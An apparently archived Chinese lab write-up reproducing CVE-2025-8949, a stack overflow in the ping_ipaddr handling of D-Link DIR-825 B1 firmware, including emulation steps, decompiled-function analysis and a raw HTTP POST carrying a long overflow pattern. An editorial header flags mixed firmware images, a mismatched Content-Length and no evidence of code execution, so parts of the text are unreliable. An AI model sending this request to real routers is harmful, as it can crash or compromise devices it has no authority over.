






# CVE-2025-8949漏洞复现技术分享

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：D-Link DIR-825 B1固件
- 文献类型：路由器栈溢出实验笔记
- 版本、权限及部署边界：文件名显示FW210 EU/WW B01两个镜像混用；FirmAE仿真/ping_response.cgi ping_ipaddr，认证状态未证明
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 前半疑测system格式字符串命令注入，后半实际为parse_special_char strcpy栈溢出，必须明确本编号根因，不能混称
2. 反编译system('%s')缺实参或封装函数信息，不能据此推真实C库system支持格式化；需源码/反汇编调用签名核对
3. 现有PoC只有长循环pattern请求，无崩溃寄存器/控制流输出，不能据标题称成功利用RCE
4. HTTP Content-Length98与逾千字节请求体明显不符，PoC藏Word样式HTML表，应恢复原始报文
5. EU和WW固件名不同、缺硬件/固件哈希/修复状态和管理鉴权；fread读取256后NUL终止/后续字符串用途也未分析
6. 有iotsec-zone研究和仿真工具来源，Binwalk大小写、格式行号杂乱需清理

### 操作风险

现有PoC只有长循环pattern请求，无崩溃寄存器/控制流输出，不能据标题称成功利用RCE

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.iotsec-zone.com/article/509>
- 原文参考链接（未重新核验）：<https://github.com/craigz28/firmwalker>
- 原文参考链接（未重新核验）：<https://github.com/pr0v3rbs/FirmAE>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 小木说安全
                    小木说安全  智检安全研习社   2026-02-06 07:14  
  
一、准备工作  
### 1.Binwalk解包  
```
Binwalk -eM 目标
```  
  
  
  
### 2.使用firmwalker查看基本信息  
```
./firmwalker.sh /home/lab/桌面/D-Link/_DIR825B1_FW210EUB01.bin.extracted/squashfs-root dir.txt
```  
  
  
  
  
通过查看发现web固件httpd，根据文章内容进行模拟  
### 3.使用FirmAE进行固件模拟  
```
sudo ./run.sh -d dlink DIR825B1_FW210WWB01.bin
```  
  
  
### 4.端口转发  
```
socat TCP-LISTEN:8080,fork,reuseaddr TCP:192.168.0.1:80
访问端口
http://192.168.238.130:8080/
```  
  
  
  
## 二．分析复现   
### 1.跟踪函数get_ping_app_stat  
  
  
#### 函数分析  
  
1、缓冲区 v5[256]  
  
fread(v5, 0x100u, 1u, v2);  
  
0x100 = 256，正好等于缓冲区大小。  
  
如果 ping 输出超过 256 字节，理论上不会溢出（因为 fread 按照大小读取，但这里的问题是 system 命令的格式化字符串）。  
  
2、system("ping -c 1 \"%s\" > /var/misc/ping_app.txt");  
  
这里直接把 %s 放进了 system 命令，而且 没有把 a1 的内容传进去。  
  
如果在实际固件中 parse_special_char(a1) 返回了字符串，并且 system 调用使用了用户可控的字符串（如 sprintf(cmd, "ping -c 1 \"%s\" ...", a1)），则可能导致 命令注入漏洞。  
  
3、返回值逻辑  
  
根据 ping 输出文件判断成功/失败/未知主机，这个逻辑没有安全问题。  
  
接着我们追进去分析函数parse_special_char，看看里面写了什么。因为该函数是外部函数，所以要回去解包的固件中找他的文件位置，发现该函数在libproject.so文件中，将其放进IDA里分析函数  
### 2.Web接口功能点定位  
  
  
### 3.跟踪过滤函数parse_special_char  
  
4.函数分析：parse_special_char 用于对用户输入的字符串进行 转义处理，主要是给以下字符前面加上反斜杠 \，" 双引号\ ，反斜杠，``` 反引号，$ 变量符号  
  
目的：防止直接拼接到 system("ping ...") 命令时出现命令注入。  
  
2、存在的问题：  
  
使用了 strcpy，且 v11[200] 存放用户输入。如果传入的字符串超过 200 字节，会导致 缓冲区溢出。再加上 v10[400]，虽然比较大，但 strcpy(a1, v10) 依然没有长度检查。  
  
3、总结：  
  
parse_special_char 本意是做命令注入防护，但防护不完整，反而引入了新的 栈缓冲区溢出风险。  
### 5.漏洞复现利用poc  
<table><tbody><tr><td data-colwidth="568" width="568" valign="top" style="border-width: 1pt;border-style: solid;border-color: windowtext;padding: 0pt 5.4pt;"><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">POST /ping_response.cgi HTTP/1.1</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Host: 192.168.238.130:8080</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Upgrade-Insecure-Requests: 1</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Accept-Encoding: gzip, deflate</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Accept-Language: zh-CN,zh;q=0.9</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Referer: http://192.168.238.130:8080/tools_vct.asp</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Content-Type: application/x-www-form-urlencoded</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Cache-Control: max-age=0</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Origin: http://192.168.238.130:8080</span></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">Content-Length: 98</span></span><o:page></o:page></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><o:p><span leaf=""> </span></o:p></span></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;"><span leaf="">html_response_page=tools_vct.asp&amp;html_response_return_page=tools_vct.asp&amp;ping_ipaddr=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaacaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaacaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaacaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac&amp;ping=Ping</span></span><o:page></o:page></p><p style="mso-margin-top-alt: auto;mso-margin-bottom-alt: auto;text-align: left;margin-left: 0.0pt;text-indent: 0.0pt;line-height: normal;mso-pagination: none;font-size: 12.0pt;font-family: Calibri;mso-fareast-font-family: &#39;宋体&#39;;font-weight: normal;mso-bidi-font-weight: normal;"><span style="font-size:10.5pt;mso-bidi-font-size:10.5pt;font-family:宋体;mso-ascii-font-family:宋体;mso-fareast-font-family:宋体;mso-bidi-font-family:宋体;font-variant:normal;text-transform:none;vertical-align:baseline;"><o:p><span leaf=""> </span></o:p></span></p></td></tr></tbody></table>

## 三，参考文章链接  
  
漏洞复现文章：https://www.iotsec-zone.com/article/509  
  
工具 firmwalker：https://github.com/craigz28/firmwalker  
  
FirmAE:https://github.com/pr0v3rbs/FirmAE  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
